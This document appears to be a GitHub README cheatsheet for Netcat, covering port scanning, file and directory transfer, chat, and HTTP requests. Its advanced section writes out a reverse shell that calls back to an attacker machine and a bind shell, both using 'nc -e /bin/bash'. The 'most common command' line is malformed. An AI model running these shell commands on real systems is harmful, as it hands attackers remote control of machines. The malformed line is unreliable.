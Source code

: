 #Tool
# Netcat Cheatsheet 🐾📡

Welcome to the **Netcat Cheatsheet**! Netcat (often called the “Swiss Army knife” of networking) is a versatile tool for network debugging, testing, and exploration. This guide will help you master Netcat like a networking wizard. 🧙‍♂️✨

---

## 🌟 Most Commonly Used Command
```bash
nc -nvlp *.*.*.*
```
Set up a listener with numeric IPs, verbose output, and a specified port.

---

## 🌟 What is Netcat?
**Netcat (nc)** is a powerful networking utility for reading and writing data across networks. It's used for:
- Debugging and testing network connections.
- File transfers.
- Port scanning.
- Setting up reverse shells and backdoors.

### 🛠 Features:
- Connect to and listen on TCP/UDP ports.
- Transfer files between systems.
- Perform port scanning.
- Support for scripting and automation.

---

## 🧰 Common Commands

### 🔍 Basic Port Scanning
```bash
nc -zv 192.168.1.1 20-80
```
Scan ports 20 to 80 on a target host.

### 📡 Establish a TCP Connection
```bash
nc 192.168.1.1 80
```
Connect to port 80 on the target host.

### 🛠 Listen for Incoming Connections
```bash
nc -l -p 1234
```
Set up a listener on port 1234.

### 🔄 File Transfer (Send)
```bash
nc -w 3 192.168.1.2 1234 < file.txt
```
Send a file to a listener.

### 🔄 File Transfer (Receive)
```bash
nc -l -p 1234 > file.txt
```
Receive a file sent to a listener.

---

## ⚙️ Advanced Usage

### 🌐 Create a Reverse Shell
#### Listener (on Attacker Machine):
```bash
nc -l -p 4444
```
#### Target Machine:
```bash
nc 192.168.1.10 4444 -e /bin/bash
```
Establish a reverse shell to the attacker machine.

### 🖥️ Create a Bind Shell
#### Target Machine:
```bash
nc -l -p 5555 -e /bin/bash
```
#### Attacker Machine:
```bash
nc 192.168.1.20 5555
```
Connect to the bind shell on the target machine.

### 📜 HTTP Requests
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```
Manually send an HTTP GET request to a web server.

### 🛡️ Transfer Directories
#### On Sending Machine:
```bash
tar -czf - /path/to/dir | nc -w 3 192.168.1.2 1234
```
#### On Receiving Machine:
```bash
nc -l -p 1234 | tar -xzf -
```
Transfer an entire directory over the network.

---

## 📋 Handy Options

| Option        | Description                                     |
|---------------|-------------------------------------------------|
| `-l`          | Listen for incoming connections                 |
| `-p`          | Specify the local port to use                  |
| `-z`          | Perform a port scan without sending data       |
| `-v`          | Enable verbose mode                            |
| `-e`          | Execute a command after connection             |
| `-w`          | Set a timeout for connections (in seconds)     |
| `-u`          | Use UDP instead of TCP                         |

---

## 🌐 Example Scenarios

### Scenario 1: Simple Chat Between Two Machines
#### Machine A:
```bash
nc -l -p 5678
```
#### Machine B:
```bash
nc 192.168.1.5 5678
```

### Scenario 2: Copy Files Across Hosts
#### Sender:
```bash
nc -w 3 192.168.1.2 1234 < secret.zip
```
#### Receiver:
```bash
nc -l -p 1234 > secret.zip
```

### Scenario 3: Basic TCP Port Scan
```bash
nc -zv 192.168.1.10 20-100
```

---

## 🚀 Pro Tips

### 1️⃣ Combine with Scripts
Use Netcat in scripts to automate testing and data collection.

### 2️⃣ Use with Sudo
Elevated permissions may be required for specific ports and operations.

### 3️⃣ Secure Connections
Netcat itself does not encrypt connections. For secure alternatives, consider tools like **Socat** or SSH.

---

## 📚 References
- [Netcat Official Documentation](https://manpages.ubuntu.com/manpages/bionic/man1/nc.1.html)
- [Network Basics Guide](https://en.wikipedia.org/wiki/Network_socket)

---

✨ **Copy, paste, and become a Netcat ninja!** ✨
